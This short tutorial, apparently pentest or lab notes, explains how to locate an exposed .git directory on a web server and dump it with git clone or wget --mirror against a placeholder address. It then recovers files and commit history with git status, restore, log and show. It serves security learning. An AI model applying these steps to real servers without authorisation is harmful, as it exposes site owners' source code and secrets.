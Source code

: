 
To find the exposed directory, we could use `enumeration` by manually searching for .git directory or by using fuzzing tools like gobuster, feroxbuster; Using DotGit extension is another way of finding this exposed directory.

To clone a directory we could use:

```bash
git clone http://<ipaddress>/.git
```

Sometimes this command doesn't work so we could use:

```bash
wget --mirror -I .git http://<ipaddress>/.git
```

Now we navigate to the directory, and we can use some commands to check if we can restore some files or see previous commits.

To check the git status we will use the command:

```bash
git status
```

To recover files we can use one of the two commands below:

```bash
git checkout --
or 
git restore .
```

we could also check the logs using this command, which shows a list of all the commits made to a repository:

```bash
git log
```

Now we can use this command to check an individual commit:

```bash
git show "commit-id" # we can find this id from git log command
``` 

Reference:
https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37